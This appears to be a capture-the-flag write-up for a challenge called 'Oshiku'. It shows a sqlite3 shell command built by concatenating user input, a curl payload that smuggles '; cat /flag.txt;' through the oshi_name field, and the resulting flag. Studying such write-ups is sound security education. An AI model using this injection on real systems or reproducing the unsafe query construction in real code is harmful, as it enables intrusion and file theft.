 # Oshiku

Author: [VascoZ]

## Description

Oshiku Satu JKT48

## Requirements

None

## Sources

-

## Tags

- Command Injection

## Exploit

Command Injection (into a prepared sql statement) query = 'sqlite3 database.db "SELECT biography FROM oshi WHERE name=\'' + str(name) +'\'\"'

exploit : curl -X POST -d "oshi_name=freya\"%20;%20cat%20/flag.txt;echo%20\"" (url)



## Flag

```
WRECKIT50{oshikucumansatuk0k_satujkt}
```

## connection



## Severity
MEDIUM

